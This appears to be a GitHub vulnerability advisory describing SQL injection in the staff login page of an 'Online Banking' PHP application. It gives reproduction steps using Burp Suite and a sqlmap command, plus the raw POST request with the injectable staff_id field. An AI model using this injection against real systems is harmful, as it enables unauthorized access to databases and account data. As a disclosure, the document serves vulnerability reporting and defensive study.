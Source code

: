 # Online Banking SQL Injection
* `Description` => sql injection at `staff_login.php`
# Step to Reproduct
* `Staff Login` -> `Staff ID ` -> `Staff Password` -> `Login` -> `modify data` -> `Sqlmap`
# Exploit
* Input `Staff ID` and `Staff Password` -> `Login` 
![image](https://user-images.githubusercontent.com/79050415/159326849-427a43be-5e88-4535-ba60-7d41fe0906f1.png)
* Use Burp Suite capture request 
![image](https://user-images.githubusercontent.com/79050415/159327710-183afd91-1624-4733-88a7-491cca62fa8f.png)
* Then modify the data and save as `sqli.txt`
![image](https://user-images.githubusercontent.com/79050415/159327862-825f0250-9143-46ed-a5cb-c36d5ee29b3d.png)
* Scan `sqli.txt` on `Sqlmap`
```c
python3 sqlmap.py -r sqli.txt --batch --current-user
```
![image](https://user-images.githubusercontent.com/79050415/159328722-52415c05-ed4a-405b-ae9f-919692f58601.png)

# Vulnerable Code
![image](https://user-images.githubusercontent.com/79050415/159329104-f6734379-6e0f-4344-a7a9-d4baa41d2e34.png)
* No filter when inserting data to database

# POC
`Injection Point`
```c
staff_id=*&password=hhhhhhhhhh&staff_login-btn=LOGIN
```
* `Request`
```c
POST /Online-Banking/staff_login.php HTTP/1.1
Host: 192.168.1.101:8080
Content-Length: 57
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.101:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.101:8080/Online-Banking/staff_login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=jpkpok9b1tiholm7srir1b6mev
Connection: close

staff_id=*&password=hhhhhhhhhh&staff_login-btn=LOGIN
```
